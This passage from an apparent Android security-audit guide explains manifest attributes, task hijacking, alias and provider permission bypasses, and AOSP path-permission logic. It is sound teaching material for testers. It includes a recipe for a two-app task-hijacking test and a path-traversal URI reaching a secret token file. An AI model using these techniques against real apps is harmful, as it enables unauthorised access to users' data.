| `android:networkSecurityConfig` | 24 | none | Points at the Network Security Config XML. **Always resolve and read it** — it can re-enable cleartext, add a user-trust anchor for debug builds that shipped to production, or pin certificates. See [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md). | Varies; often the highest-value single file in the APK |
| `android:testOnly` | 4 | `false` | Set automatically by Android Studio's *Run* button. A `testOnly` APK can only be installed with `pm install -t`, and its presence in a store build means the build pipeline shipped a debug artefact. Often accompanies `debuggable`. | High (as an indicator) |
| `android:extractNativeLibs` | 23 | `true` in the platform schema; modern AGP emits `false` | `false` means `.so` files are stored uncompressed and page-mapped straight from the APK, so there is **no copy in `/data/app/…/lib/`** to patch. Changes your native-hooking workflow, and slightly raises the bar for a repackaging attack. | Info (workflow) |
| `android:name` | 1 | `android.app.Application` | Names the `Application` subclass. **This is the first app code that runs** — before any Activity. Root detection, SSL pinning setup, native library loading and anti-Frida checks live here. Always the first class you open in JADX. | Info (workflow) |
| `android:process` | 1 | `<package>` | Runs the whole app in a named process. A leading `:` makes it private to the app; **no leading colon makes it a global process name shareable with apps signed by the same key**. A global process name is a design smell worth investigating. | Low–Medium |
| `android:persistent` | 1 | `false` | Only honoured for system apps. If you see it on a third-party APK it is aspirational, not effective. | Info |
| `android:requestLegacyExternalStorage` | 29 | `false` | Opts out of scoped storage on Android 10. **Ignored when targetSdk ≥ 30.** Presence indicates the app was written against the pre-scoped-storage model and may still have that code path. | Medium |
| `android:preserveLegacyExternalStorage` | 30 | `false` | Lets an app that is *upgrading* keep legacy access until it is uninstalled. Does not apply to fresh installs. Same investigative value as above. | Low–Medium |
| `android:largeHeap` | 11 | `false` | Requests a bigger Dalvik/ART heap. Not a vulnerability, but an app that loads very large objects into memory is a better memory-scraping target and may be handling bulk data. | Info |
| `android:hardwareAccelerated` | 11 | `true` for targetSdk ≥ 14 | Rendering. Occasionally disabled for anti-screenshot hacks that do not work. | Info |
| `android:appComponentFactory` | 28 | framework default | Names a class whose methods are called to **instantiate every Activity, Service, Receiver, Provider, Application and ClassLoader**. It is the earliest possible app-controlled hook point. Malware and packers use it; so can you. If present on an app that has no obvious reason for it, read that class first. | Investigate |
| `android:enableOnBackInvokedCallback` | 33 | `false` | Opts into predictive back. Behavioural, not a security control — but note it, because apps sometimes rely on `onBackPressed` for a security-relevant lock screen and the migration breaks it. | Info |
| `android:manageSpaceActivity` | 3 | none | Replaces the "Clear data" button with an app-provided Activity. That Activity is worth auditing: it runs with the app's identity and is reachable from Settings. | Investigate |
| `android:permission` | 1 | none | A permission required to interact with **any** component of the app, unless overridden per component. Rarely used; when present, note that a per-component `android:permission` **overrides** it rather than adding to it. | Important nuance |
| `android:taskAffinity` | 1 | `<package>` | Default affinity for all Activities. See §3.6 — this is the StrandHogg / task-hijacking surface. | See §3.6 |
| `android:allowTaskReparenting` | 1 | `false` | Default for all Activities. See §3.6. | See §3.6 |
| `android:vmSafeMode` | 8 | `false` | Disables the JIT. Occasionally used by packers. | Info |
| `android:hasCode` | 1 | `true` | `false` declares the APK contains no DEX. If `false` but `classes.dex` exists, something is loading code another way. | Investigate |
| `android:localeConfig` | 33 | none | Per-app language settings. Not security-relevant. | Info |
| `android:memtagMode` / `android:gwpAsanMode` | 31 / 30 | off | Opt-in memory-safety hardening for native code. Their **presence** is a positive finding: the developer is doing something right. Their absence on an app with a large native attack surface is a hardening recommendation. | Positive / hardening |
| `android:allowNativeHeapPointerTagging` | 30 | `true` | Disabling it (`false`) weakens a MTE-adjacent mitigation. Rare; usually a workaround for a broken third-party `.so`. | Low |
| `android:supportsRtl`, `android:theme`, `android:icon`, `android:label`, `android:banner`, `android:description`, `android:logo`, `android:uiOptions`, `android:isGame` | various | — | Cosmetic. Ignore, except that `android:theme` can reference a style enabling `windowIsTranslucent`, which matters for overlay attacks. | Info |

> **⚠️ Warning — the `debuggable` false negative**
> `android:debuggable` is frequently **absent** from the manifest and set to `true` by the *build
> type*, not by the manifest source. Gradle's `debug` build type sets it during the merge. So the
> source manifest is clean and the shipped APK is debuggable. Never audit the source manifest for
> this attribute; audit the APK, with `aapt2 dump badging target.apk | grep -i debug` or by checking
> `ApplicationInfo.FLAG_DEBUGGABLE` on-device with `dumpsys package <pkg> | grep -i flags`.

#### Reading the backup attributes together

The backup attributes only make sense as a set. Use this decision flow:



The end of every branch is the same instruction: **enumerate the actual files**. `allowBackup="true"`
on an app that stores nothing sensitive is an informational note. The same attribute on an app whose
`shared_prefs` contains a long-lived OAuth refresh token is a High. The attribute does not decide the
severity; the data does. That work happens in [33-Storage](../33-Storage/README.md).

### 3.6 `<activity>` and `<activity-alias>`

> **📖 Definition**
> An **Activity** is a single screen with a user interface, and it is the most commonly exported
> component type. Starting an Activity is an IPC operation: your app asks
> `ActivityManagerService`/`ActivityTaskManagerService` to start a component in another process, and
> the system decides whether you are allowed to.

```xml
<activity
    android:name=".WebViewActivity"
    android:exported="true"
    android:permission="com.example.permission.OPEN_WEB"
    android:launchMode="singleTask"
    android:taskAffinity=""
    android:excludeFromRecents="true"
    android:noHistory="true"
    android:showWhenLocked="false"
    android:turnScreenOn="false"
    android:directBootAware="false"
    android:allowEmbedded="false"
    android:resizeableActivity="false">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="https" android:host="app.example.com" android:pathPrefix="/open"/>
    </intent-filter>
</activity>
```

| Attribute | API | Default | Auditor's conclusion |
|---|---|---|---|
| `android:name` | 1 | required | Fully-qualified class name; a leading `.` is relative to the manifest `package`. Note that with Gradle `namespace` vs `applicationId` split, the relative base is the **namespace**, not the `applicationId` — a frequent source of "class not found" confusion during testing. |
| `android:exported` | 1 | `true` if any `<intent-filter>`, else `false`; **mandatory from targetSdk 31** | The single most important attribute. `true` means any app on the device may `startActivity()` this component with an attacker-controlled `Intent`. |
| `android:permission` | 1 | inherits `<application android:permission>` | A permission the **caller** must hold. If the required permission's `protectionLevel` is `normal`, any app can obtain it by simply declaring it, and the control is worthless. **Always resolve the protectionLevel; never accept "it's permission-protected" at face value.** |
| `android:enabled` | 1 | `true` | `false` disables the component. Can be flipped at runtime by the app itself via `PackageManager.setComponentEnabledSetting`, so a disabled component is not permanently unreachable — check the code for enable calls. |
| `android:launchMode` | 1 | `standard` | `standard`, `singleTop`, `singleTask`, `singleInstance`, and (API 31+) `singleInstancePerTask`. `singleTask`/`singleInstance` combined with a default `taskAffinity` is the classic task-hijacking configuration. |
| `android:taskAffinity` | 1 | the `<application>` affinity, which defaults to the package name | Names the task this Activity prefers. **An empty string (`""`) means "no affinity"**, which is the hardening value. A non-default affinity string that matches another app's package name is a red flag. |
| `android:allowTaskReparenting` | 1 | `false` (inherits application) | Permits the Activity to move to a task with a matching affinity when that task comes to the foreground. Combined with affinity manipulation this lets a malicious app adopt the victim's Activity into its own task. |
| `android:excludeFromRecents` | 1 | `false` | Keeps the task out of the Recents/Overview screen. For a screen showing sensitive data, `true` is a hardening measure — but note it does **not** prevent the system task-snapshot from being written; `FLAG_SECURE` is the control for that. See [33-Storage](../33-Storage/README.md). |
| `android:autoRemoveFromRecents` | 21 | `false` (`true` for `documentLaunchMode` tasks) | Removes the task from Recents when the Activity finishes. Weak hardening. |
| `android:noHistory` | 3 | `false` | The Activity is finished as soon as the user navigates away. Useful for login and OAuth-redirect screens: it prevents the screen being resumed from Recents. Its **absence** on an authentication screen is a minor hardening note, not a vulnerability. |
| `android:clearTaskOnLaunch` | 1 | `false` | Every time the task is re-entered from the launcher, the stack is cleared back to this root Activity. Prevents an attacker-injected Activity from surviving in the stack; also a UX decision. |
| `android:finishOnTaskLaunch` | 1 | `false` | This specific Activity is finished when the user re-launches the task. |
| `android:alwaysRetainTaskState` | 1 | `false` | The system does not trim the task. Sensitive state lives longer. |
| `android:stateNotNeeded` | 1 | `false` | The Activity can be restarted without saved state — meaning `onSaveInstanceState` is not called. Occasionally used to avoid writing sensitive state to disk, which is a legitimate hardening trick. |
| `android:directBootAware` | 24 | `false` | The component can run **before the user unlocks the device for the first time**, when only device-encrypted storage is available. A `directBootAware` component must not touch credential-encrypted storage. Its presence widens the attack surface to the pre-unlock window, where the lock screen is not yet an obstacle. Cross-reference [33-Storage §Direct Boot](../33-Storage/README.md). |
| `android:showWhenLocked` | 27 | `false` | The Activity displays **over the lock screen**. On a sensitive app this is a genuine finding: an attacker with physical access to a locked device can reach the component's UI, and if it is also exported, another app can force it to appear. Older equivalent: `android:showOnLockScreen`. |
| `android:turnScreenOn` | 27 | `false` | Wakes the screen when the Activity starts. Combined with `showWhenLocked` and `exported`, any app can light up the victim's locked phone with an attacker-chosen screen. |
| `android:documentLaunchMode` | 21 | `none` | `intoExisting` / `always` create separate Recents entries per document. `always` can multiply the number of task snapshots written to disk containing document content. |
| `android:allowEmbedded` | 21 | `false` | The Activity may be launched as the embedded child of another Activity — historically in a different task/container. Enabling it on a sensitive screen invites UI-embedding attacks. |
| `android:resizeableActivity` | 24 | `true` for targetSdk ≥ 24 | Multi-window support. `true` means the Activity can be shown side-by-side with an attacker's app, which is a prerequisite for some tapjacking and shoulder-surfing scenarios. |
| `android:supportsPictureInPicture` | 24 | `false` | The Activity can continue rendering in a small floating window. If it renders sensitive content, PiP is another way for it to remain visible. |
| `android:screenOrientation`, `android:configChanges`, `android:windowSoftInputMode`, `android:theme`, `android:label`, `android:icon` | various | — | Mostly cosmetic. `android:theme` matters if it sets `android:windowIsTranslucent` or disables `filterTouchesWhenObscured`. |
| `android:multiprocess` | 1 | `false` | Legacy; allows an instance of the Activity to run in the *caller's* process. Very rare and worth investigating if present. |
| `android:relinquishTaskIdentity` | 21 | `false` | The task takes its identity from the next Activity. Relevant to task-hijacking reasoning. |
| `android:lockTaskMode` | 28 | `normal` | `if_whitelisted` / `always` relate to kiosk mode. On a kiosk assessment this is a primary attribute. |
| `android:maxRecents` | 21 | 16 | Number of task entries retained. More entries, more snapshots. |
| `android:persistableMode` | 21 | `persistRootOnly` | Controls whether the task's state is persisted across reboots. `persistAcrossReboots` writes state to disk — check what state. |
| `android:parentActivityName` | 16 | none | Up-navigation target. Not security-relevant. |
| `android:requireContentUriPermissionFromCaller` | 35 | `none` | Requires the caller to already hold read/write permission on any `content://` URI passed in the Intent. A genuinely useful new hardening attribute; recommend it where applicable. |

#### Task hijacking, precisely

> **📖 Definition**
> A **task** is a stack of Activities that the user perceives as one application. **`taskAffinity`**
> is a string naming the task an Activity prefers to belong to. By default it is the package name, so
> every Activity in an app shares a task.

The attack, commonly discussed under the name **StrandHogg** (and its variant using
`allowTaskReparenting`), works like this:



The mitigations, and how you check them in the manifest:

| Mitigation | Manifest form | Effectiveness |
|---|---|---|
| Empty affinity on the launcher Activity | `android:taskAffinity=""` | Strong. The Activity has no affinity to steal. |
| Empty affinity app-wide | `<application android:taskAffinity="">` | Strong and simple; recommend this. |
| `launchMode="singleInstance"` on the launcher Activity | attribute | Effective but has UX consequences. |
| `FLAG_ACTIVITY_NEW_TASK` discipline in code | not in manifest | Partial. |
| `onResume` checks that the task's base Activity belongs to the app | code | Detective, not preventive. |
| Targeting API 30+ | `targetSdkVersion` | Android 11 tightened the rules considerably; a modern `targetSdk` substantially reduces but does not fully eliminate the class. |

> **🔍 Pentester's Note**
> To test for this you need a real second app. Build a minimal APK with a single Activity whose
> `taskAffinity` equals the victim's package name and `launchMode="singleTask"`, install both, launch
> yours once, then launch the victim from the launcher and observe which UI appears. A manifest read
> alone gives you *suspicion*; the two-app test gives you a *finding*. Lab 03 walks through this.

#### `<activity-alias>` — the component people forget to audit

```xml
<activity-alias
    android:name=".PublicEntry"
    android:targetActivity=".InternalActivity"
    android:exported="true"
    android:enabled="true"
    android:permission="">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity-alias>
```

An `<activity-alias>` is a **second, independently-configured entry point to an existing Activity**.
Its `exported` and `permission` attributes are its own; they do **not** inherit from the target
Activity.

> **⚠️ Warning**
> This is a real and frequently-missed bypass. An Activity declared `exported="false"` and
> `permission="com.example.ADMIN"` can be fully reachable by any app through an alias declared
> `exported="true"` with no permission. Auditors who grep only for `<activity` miss aliases entirely.
> Always grep for `activity-alias` separately, and always resolve `targetActivity` to see what the
> alias actually reaches.

| Attribute | Meaning |
|---|---|
| `android:targetActivity` | The Activity actually launched. Must be declared in the same manifest. |
| `android:exported` | The alias's own export state. Independent of the target's. |
| `android:permission` | The alias's own permission. **An empty string removes the application-level permission requirement.** |
| `android:enabled` | Aliases are commonly toggled at runtime to change the launcher icon; a "disabled" alias may be enabled by app code. |

### 3.7 `<service>`

> **📖 Definition**
> A **Service** is a component with no user interface that performs work in the background or exposes
> a Binder interface to other components. Two interaction modes matter: *started* (via
> `startService`/`startForegroundService`, fire-and-forget) and *bound* (via `bindService`, which
> returns an `IBinder` the caller can make arbitrary calls on).

```xml
<service
    android:name=".SyncService"
    android:exported="true"
    android:permission="com.example.permission.SYNC"
    android:isolatedProcess="false"
    android:externalService="false"
    android:foregroundServiceType="dataSync"
    android:directBootAware="false"
    android:process=":sync" />
```

| Attribute | API | Default | Auditor's conclusion |
|---|---|---|---|
| `android:exported` | 1 | `true` if `<intent-filter>`, else `false`; mandatory from targetSdk 31 | An exported bound Service is often **worse** than an exported Activity, because the attacker gets an `IBinder` and can call every method on the interface, with arbitrary arguments, repeatedly, with no UI. Treat an exported `bindService` target as a full RPC endpoint and enumerate its transactions. |
| `android:permission` | 1 | inherits application | Checked on both `startService` and `bindService`. As always, resolve the `protectionLevel`. |
| `android:isolatedProcess` | 16 | `false` | **A positive finding.** The service runs in a special process with **no permissions of its own, no access to the app's data directory, and essentially no Binder access to system services**. It is Android's built-in sandbox for parsing untrusted input. If an app parses attacker-supplied media, documents or fonts and does *not* use `isolatedProcess`, recommending it is a strong, actionable hardening finding. Chrome's renderer uses this mechanism. |
| `android:externalService` | 24 | `false` | Only meaningful with `isolatedProcess="true"`. Allows the isolated service to run under the **calling app's** UID rather than the declaring app's, letting the caller supply the sandbox. Used by apps that offer a parsing service to others. Rare and interesting. |
| `android:foregroundServiceType` | 29 | none (**mandatory from targetSdk 34**) | A pipe-separated set from: `camera`, `connectedDevice`, `dataSync`, `health`, `location`, `mediaPlayback`, `mediaProjection`, `microphone`, `phoneCall`, `remoteMessaging`, `shortService`, `specialUse`, `systemExempted`. **This is a declaration of capability that you can audit against behaviour.** An app declaring `microphone` or `camera` or `location` here is telling you it runs those sensors in the background. `specialUse` requires a `<property>` justification string and is the "we didn't fit a category" escape hatch — read the justification. |
| `android:directBootAware` | 24 | `false` | Runs before first unlock. Must only use device-encrypted storage. |
| `android:process` | 1 | app process | `:name` is private; a bare name is shareable with same-signed apps. |
| `android:enabled` | 1 | `true` | Can be toggled at runtime. |
| `android:stopWithTask` | 14 | `false` | Service stops when the user swipes the task away. Its absence on a background-recording service is behaviourally interesting on a malware assessment. |
| `android:singleUser` | 17 | `false` | Only one instance across all users; requires a system permission. On a third-party app it will not take effect. |
| `android:description`, `android:icon`, `android:label` | — | — | Cosmetic. |

> **🔍 Pentester's Note — the AIDL enumeration step**
> When you find an exported Service, do not stop at "it is exported". Find its `onBind` and the
> `Stub` class it returns. In JADX, look for a class extending `android.os.Binder` and implementing
> an interface with a `DESCRIPTOR` string and `TRANSACTION_*` constants. Each `TRANSACTION_foo = N`
> is a callable method, and `service call` / a Frida-driven `Binder.transact` reaches it directly.
> See [25-Binder](../25-Binder/README.md) and [28-Services](../28-Services/README.md).

### 3.8 `<receiver>`

> **📖 Definition**
> A **BroadcastReceiver** handles `Intent` broadcasts. Manifest-declared ("static") receivers can be
> started even when the app is not running; code-registered ("dynamic") receivers exist only while
> the registering context does.

```xml
<receiver
    android:name=".BootReceiver"
    android:exported="true"
    android:permission="android.permission.BIND_DEVICE_ADMIN"
    android:directBootAware="false">
    <intent-filter android:priority="999">
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</receiver>
```

| Attribute | API | Default | Auditor's conclusion |
|---|---|---|---|
| `android:exported` | 1 | `true` if `<intent-filter>`, else `false`; mandatory from targetSdk 31 | An exported receiver accepts an `Intent` from any app. The classic finding is a receiver that reads an extra and acts on it — starting a download from an attacker URL, changing a setting, clearing data, or forwarding a token. |
| `android:permission` | 1 | inherits application | The **sender** must hold this permission. Note the asymmetry: a receiver can also be protected at the *send* side, by the broadcaster specifying a receiver permission — which you cannot see in the manifest at all. |
| `android:directBootAware` | 24 | `false` | Can receive `LOCKED_BOOT_COMPLETED` before unlock. |
| `android:enabled` | 1 | `true` | Frequently toggled at runtime to work around background restrictions. |
| `android:process` | 1 | app process | As for services. |
| `android:singleUser` | 17 | `false` | System apps only. |
| `<intent-filter android:priority>` | 1 | 0 | For **ordered** broadcasts, higher priority receives first and may call `abortBroadcast()`. The historical SMS-interception pattern is a high-priority receiver for `SMS_RECEIVED` that aborts the broadcast so the real SMS app never sees the message. On modern Android the SMS path is restricted to the default SMS app, but the *pattern* — high priority plus `abortBroadcast` on a custom ordered broadcast — is still exploitable between apps. Values above 1000 are documented as reserved for the system. |

> **⚠️ Warning — the targetSdk 33 receiver rule**
> From `targetSdk` 33, `Context.registerReceiver` for a non-system broadcast **must** pass
> `RECEIVER_EXPORTED` or `RECEIVER_NOT_EXPORTED`. Below 33, a dynamically registered receiver is
> effectively exported and is invisible in the manifest. This means **a manifest audit alone cannot
> enumerate an app's receiver attack surface.** You must also hook or decompile
> `registerReceiver` calls. Section 7 gives you the Frida hook.

### 3.9 `<provider>` — the richest and most dangerous element

> **📖 Definition**
> A **ContentProvider** exposes structured data through `content://` URIs and a fixed CRUD interface
> (`query`, `insert`, `update`, `delete`, `call`, `openFile`). Unlike other components, a provider is
> not started by an `Intent`; it is addressed by *authority*, and callers use `ContentResolver`. It
> is also the only component type with **per-path permissions** and **temporary URI grants**.

```xml
<provider
    android:name=".DataProvider"
    android:authorities="com.example.target.provider"
    android:exported="true"
    android:readPermission="com.example.permission.READ_DATA"
    android:writePermission="com.example.permission.WRITE_DATA"
    android:grantUriPermissions="true"
    android:multiprocess="false"
    android:initOrder="100"
    android:syncable="false"
    android:directBootAware="false"
    android:forceUriPermissions="false">
    <grant-uri-permission android:pathPrefix="/shared/"/>
    <path-permission android:pathPrefix="/public/" android:readPermission="android.permission.INTERNET"/>
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>
</provider>
```

| Attribute | API | Default | Auditor's conclusion |
|---|---|---|---|
| `android:authorities` | 1 | required | One or more `;`-separated authority strings. **This is the address an attacker types.** Collect every authority in the app; each is an endpoint. An authority that is not namespaced under the package name (for example `downloads` or `files`) risks colliding with another app — on install, the *second* app to claim an authority fails to install, which is a denial-of-service and occasionally an authority-squatting opportunity on a device where install order is controllable. |
| `android:exported` | 1 | `true` for targetSdk ≤ 16, **`false` for ≥ 17** | Note the different default from other components, and the different threshold. |
| `android:permission` | 1 | none | Sets both read and write. Overridden by the more specific `readPermission`/`writePermission`. |
| `android:readPermission` | 1 | falls back to `permission` | Required for `query` and read-mode `openFile`. |
| `android:writePermission` | 1 | falls back to `permission` | Required for `insert`, `update`, `delete` and write-mode `openFile`. **A provider with `readPermission` set and `writePermission` absent is writable by anyone** — a startlingly common real-world finding, because developers assume `readPermission` covers both. |
| `android:grantUriPermissions` | 1 | `false` | If `true`, the provider will honour `FLAG_GRANT_READ_URI_PERMISSION` / `FLAG_GRANT_WRITE_URI_PERMISSION` on **any** URI under its authority, bypassing the permission attributes for the granted URI. If `false`, only URIs matching a `<grant-uri-permission>` child may be granted. `grantUriPermissions="true"` on a provider that also serves internal files is how "temporary access to one image" becomes "read any file the app can read". |
| `<grant-uri-permission>` child | 1 | — | `android:path`, `android:pathPrefix`, `android:pathPattern`. Restricts which subsets are grantable. Present + narrow = good design; absent with `grantUriPermissions="true"` = broad. |
| `<path-permission>` child | 1 | — | Per-path permissions. **See the detailed treatment below — this element does not do what most developers think it does.** |
| `android:forceUriPermissions` | 29 | `false` | Requires a URI permission grant even for the app's own components. A hardening attribute; positive finding. |
| `android:multiprocess` | 1 | `false` | An instance can be created in each client process. Legacy; if `true` on a provider that holds state, the state is not shared. |
| `android:initOrder` | 1 | 0 | Higher initialises first. Providers initialise **before `Application.onCreate()`**, which is why libraries use a no-op provider to run initialisation code (androidx `Startup` / `FirebaseInitProvider`). This is also why a provider is the earliest app code that runs, ahead of any anti-tamper check installed in `Application.onCreate`. |
| `android:syncable` | 1 | `false` | Integrates with the sync framework. Rarely security-relevant on its own. |
| `android:directBootAware` | 24 | `false` | Available before first unlock. |
| `android:visibleToInstantApps` | 26 | `false` | Exposes the provider to instant apps, which are a lower-trust context. |
| `android:enabled`, `android:process`, `android:icon`, `android:label` | — | — | As for other components. |

#### `<path-permission>` — the element that widens access

This is the subtlest element in the manifest and it is misused constantly. Here is exactly what the
platform does, from `ContentProvider.enforceReadPermissionInner`:

```java
// AOSP: frameworks/base/core/java/android/content/ContentProvider.java (condensed, illustrative)
if (mExported && checkUser(pid, uid, context)) {
    final String componentPerm = getReadPermission();
    if (componentPerm != null) {
        if (context.checkPermission(componentPerm, pid, uid, callerToken) == PERMISSION_GRANTED) {
            return MODE_ALLOWED;              // (1) component permission satisfied → allowed
        } else {
            missingPerm = componentPerm;
        }
    }
    // If there is no component-level permission, unprotected access is allowed by default…
    boolean allowDefaultRead = (componentPerm == null);

    final PathPermission[] pps = getPathPermissions();
    if (pps != null) {
        final String path = uri.getPath();
        for (PathPermission pp : pps) {
            final String pathPerm = pp.getReadPermission();
            if (pathPerm != null && pp.match(path)) {
                if (context.checkPermission(pathPerm, pid, uid, callerToken) == PERMISSION_GRANTED) {
                    return MODE_ALLOWED;      // (2) a matching path permission is satisfied → allowed
                } else {
                    allowDefaultRead = false; // …unless some matching path permission was denied
                    missingPerm = pathPerm;
                }
            }
        }
    }
    if (allowDefaultRead) return MODE_ALLOWED; // (3) no component perm, no denied path perm → allowed
}
```

Three consequences, each of which is a real finding pattern:

**Consequence 1 — `<path-permission>` is an OR, not an AND.** A caller who satisfies *either* the
component permission *or* a matching path permission is allowed. So adding a `<path-permission>` with
a weaker permission to a provider protected by a strong `readPermission` **widens** access for that
path. Developers write `<path-permission android:pathPrefix="/public/"
android:readPermission="android.permission.INTERNET"/>` believing they are restricting `/public/`,
when in fact they have made `/public/` readable by every app on the device (`INTERNET` is a `normal`
permission granted automatically to anything that asks).

**Consequence 2 — paths that match no `<path-permission>` are unprotected when there is no
component permission.** Look at `allowDefaultRead`. If the provider declares no `readPermission` and
only declares `<path-permission>` entries for `/admin/`, then `/anything-else/` returns `MODE_ALLOWED`
at line (3). The developer's mental model — "I locked down the sensitive paths" — is exactly
backwards.

**Consequence 3 — the match is on the raw URI path, and providers resolve paths themselves.** The
matching functions are:

| Attribute | Semantics |
|---|---|
| `android:path` | Exact string equality with `uri.getPath()` |
| `android:pathPrefix` | `uri.getPath().startsWith(prefix)` |
| `android:pathPattern` | A simple glob: `*` means "zero or more of the *preceding* character", `.*` means "any sequence". **Not a regular expression.** `\\` escapes. |
| `android:pathSuffix` (API 31, `<data>` only) | Suffix match |
| `android:pathAdvancedPattern` (API 31, `<data>` only) | A restricted regular expression |

`uri.getPath()` is **not normalised**. A URI of the form
`content://com.example.provider/public/../secret/token.txt` has a path beginning `/public/`, so it
matches a `pathPrefix="/public/"` rule — while a provider implementation that does
`new File(baseDir, uri.getLastPathSegment())` or naive string concatenation resolves it to
`/secret/token.txt`. This is the standard **content provider path traversal**, and it is the reason
`FileProvider`-style implementations must call `File.getCanonicalPath()` and verify the result is
still inside the intended directory.

> **⚠️ Warning**
> Do not report `<path-permission>` findings from the manifest alone. Read the provider's Java to see
> how it turns a URI into a file or a query, then prove the traversal with an actual
> `content read --uri`. A manifest-only claim will be disputed and you will be right but unpersuasive.

#### The provider audit flow



Every branch converges on reading the provider's implementation, because the manifest tells you
*whether the door opens* and the code tells you *what is behind it*. The three code-level issues to
look for are SQL injection through the `selection`, `selectionArgs`, `projection` and `sortOrder`
